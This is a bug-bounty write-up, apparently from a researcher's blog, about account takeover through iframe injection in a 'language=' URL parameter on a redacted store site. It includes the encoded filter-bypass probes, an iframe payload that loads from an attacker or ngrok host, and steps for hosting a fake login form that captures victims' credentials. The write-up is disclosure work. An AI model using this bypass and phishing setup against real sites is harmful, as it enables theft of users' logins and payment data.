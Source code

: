 [![Twitter](https://img.shields.io/badge/twitter%20-%231DA1F2.svg?&style=for-the-badge&logo=Twitter&logoColor=white&label=Follow%20%40xbforce)](https://twitter.com/xbforce)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
[![Youtube](https://img.shields.io/badge/Youtube%20-%23FF0000.svg?&style=for-the-badge&logo=YouTube&logoColor=white&label=Subscribe)](http://www.youtube.com/channel/UCadRCMA7BFJ2iwiABKqf0Fg?sub_confirmation=1)


## Account Takeover via iFrame Injection

```
Vulnerable URL: https://store.redacted.com/
Vulnerable Parameter: language=
```

Sometimes you find an XSS vulnerability on a target domain but you cannot inject your javascript codes because the target sanitizes payloads perfectly using black/white lists or stop them from doing their malicious jobs by using WAFs, but there are always different ways to bypass defending mechanisms, and it is only the matter of time and efforts.

Some months ago I was looking for bugs on a very big company’s subdomains, and found nothing after trying different techniques for four days. Usually if there is a login system and I can signup on the target website I go for account takeover first. I did the same on this target but I wasn’t able to find any way to takeover accounts simply because the company’s security team did its job really great to block all ways to takeover accounts.

After trying account takeover I decided to look for XSS so maybe I can takeover accounts indirectly via an XSS vulnerability. When I work on a target I always run burpsuite first and capture all traffic with this amazing tool. If I need parameters I go to ```Target``` TAB and on the ```Sitemap``` TAB I look at ```Contents``` section, then prioritize URLs based on ```Params```. This is because burpsuite scanner finds some URLs with parameters and if you are only looking for URLs on the ```history``` TAB you may miss some golden ones.

So I tested URLs and tried different techniques manually to get an XSS, but there wasn’t any success. Finally I picked another address which looked like this:

```
https://store.redacted.com/some/dir/store/index.jsp?c=subscribe
```

I changed the value of the above parameter but nothing reflected on the response page. I noticed that other subdomains have a common parameter in their addresses which is ```language=```, however I wasn’t able to get XSS from this parameter on the other subdomains but I decided to give it a try and add this parameter to the targeted URL:

```
https://store.redacted.com/some/dir/store/index.jsp?language=PAYLOADS&c=subscribe
```


**How did I bypass the restrictions?**

I Hardly ever throw ```ready to use payloads``` to my targets, instead, I try to bypass special characters manually by using different characters and different techniques and make a note of them if characters make any change to the special characters or the URL in total:

```
?language=%25%322

?language=%%32%32

?language=%%2522

?language=%00%25%00%32%00%32

?language=%21%22%3c

?language=%40%22%3c

?language=%5c%22%3c

etc
```


After trying many characters I finally found the golden char which was ```%7b``` which is an open curly bracket ```{```.

```
https://store.redacted.com/some/dir/store/index.jsp?language=%7b%22%3exbforce&c=subscribe
```

![response](https://github.com/xbforce/Blog/blob/main/images/account-takeover-via-iframe-injection/02-escape.png)

<br />
<br />

![escape-url](https://github.com/xbforce/Blog/blob/main/images/account-takeover-via-iframe-injection/03-escape_url.png)





On some targets you are done when you bypass restrictions and you can inject your payload and execute it easly, but on some other targets like the one that I worked on, it is just the first step of struggles and you have to find a way to bypass other restrictions too.

I injected different javascript and html tags and events but all of them were blocked and I couldn’t execute any XSS payload except ```iframe``` and ```src``` (only if it is inside the iframe tag). Next step was trying to cover the original page with my iframe and its contents, but unfortunately it wasn’t possible and I don’t know why the different values on ```position=```, ```width=``` and ```height=``` didn’t work. The only effective values that worked for me were:

```
{“><iframe src="https://attacker-server.com/" position="fixed" width="100%" height="100%"></iframe>
```



This way I could make a banner at the top of the vulnerable page and show something like login or credit card forms there.

As the website allowed its customers to save their credit card info in their accounts and of course the accounts contained Private Information of the users like ```email address, phone number, home address, credit card info etc```, I decided to create a form with a deceitful gift within the iframe to show that I can capture the victims’ credentials.

![login-form](https://github.com/xbforce/Blog/blob/main/images/account-takeover-via-iframe-injection/04-login-method1.png)

I also created another page to redirect the victims after submitting the form so that victims get the unfortunate message.

![unfortunate-message](https://github.com/xbforce/Blog/blob/main/images/account-takeover-via-iframe-injection/05-unfortune-method1.png)

Finally to show how the vulnerability can be exploited I ran my tools and recorded a POC video as well as writing a report containing screenshots.

**Tools**

Ngrok – An easy to use server
Python SimpleHTTPServer.

**Steps to reproduce the exploit**

- Create an index.html file with a form to get username and password of the victim, and redirect them to ```done.html```.
- Create another file named ```done.html``` to show the unfortunate message.
- Make a directory and copy the ```index.html```, ```done.html``` and the ```logo``` file of the target to the directory.

- Run both tools in the same directory where the files are located.

```$ ngrok http 58700```

```$ python -m SimpleHTTPServer 58700```

! Both tools should have the same port number !

- Open the malicious URL as a victim and submit the form.

```
https://store.redacted.com/some/dir/store/index.jsp?language={"><iframe src="https://83c2c8cabcbd.ngrok.io/" position="fixed" width="100%" height="100%" width="inherit" height="inherit" margin="-5" padding="-5"></iframe>&c=subscribe
```

- Check the captured credentials in python SimpleHTTPServer:

![credentials](https://github.com/xbforce/Blog/blob/main/images/account-takeover-via-iframe-injection/06-creds-method1.png)

